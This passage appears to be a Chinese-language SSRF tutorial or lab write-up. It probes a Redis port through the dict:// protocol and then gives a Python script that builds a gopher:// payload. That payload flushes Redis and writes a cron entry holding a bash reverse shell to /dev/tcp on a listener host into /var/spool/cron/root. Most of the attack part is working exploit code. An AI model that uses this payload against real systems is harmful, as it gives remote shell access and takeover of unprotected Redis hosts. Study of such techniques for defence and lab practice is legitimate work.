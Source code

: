 2. dict协议又称在线网络字典协议。通过 dict协议，可以远程访问一个指定的 TCP 端口，并且会返回端口所提供的服务的部分组件信息当目标端口开放（有服务信息显示，但会报错）可以看出目标主机的`6379`​端口是开放的。

    ​![image](assets/image-20240919224230-op2jdxe.png)​
3. 由于对端是`6379`​端口也就是`redis`​服务的端口，向该端口传输的数据必须是`redis`​规定的格式，需要查找`redis`​报文格式的文档构造其报文，但那样过于繁琐，所以直接在本地另外一台服务器上搭建`redis`​服务，通过在本地连接这台`redis`​服务器，并向其发送攻击时所要发送的`redis`​命令从而获取其流量报文，最终再配合`Gopher`​协议完成传输即可。
4. 使用python构建paylod，需要再URL编码一次

    ```python
    import urllib.parse
    protocol = "gopher://"
    ip = "172.20.10.4"   #redis ip
    port = "6379"   #redis port
    reverse_ip = "172.20.10.5"   #反弹的主机
    reverse_port = "8888"   #监听的端口
    cron = "\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/{}/{} 0>&1\n\n\n\n".format(reverse_ip, reverse_port)
    filename = "root"
    path = "/var/spool/cron"
    passwd = ""

    cmd = [
        "flushall",
        "set 1 {}".format(cron.replace(" ", "${IFS}")),
        "config set dir {}".format(path),
        "config set dbfilename {}".format(filename),
        "save"
    ]

    if passwd:
        cmd.insert(0, "AUTH {}".format(passwd))

    payload = protocol + ip + ":" + port + "/_"


    def redis_format(arr):
        CRLF = "\r\n"
        redis_arr = arr.split(" ")
        cmd = ""
        cmd += "*" + str(len(redis_arr))
        for x in redis_arr:
            cmd += CRLF + "$" + str(len(x.replace("${IFS}", " "))) + CRLF + x.replace("${IFS}", " ")
        cmd += CRLF
        return cmd


    if __name__ == "__main__":
        for x in cmd:
            payload += urllib.parse.quote(redis_format(x))
        print(payload)
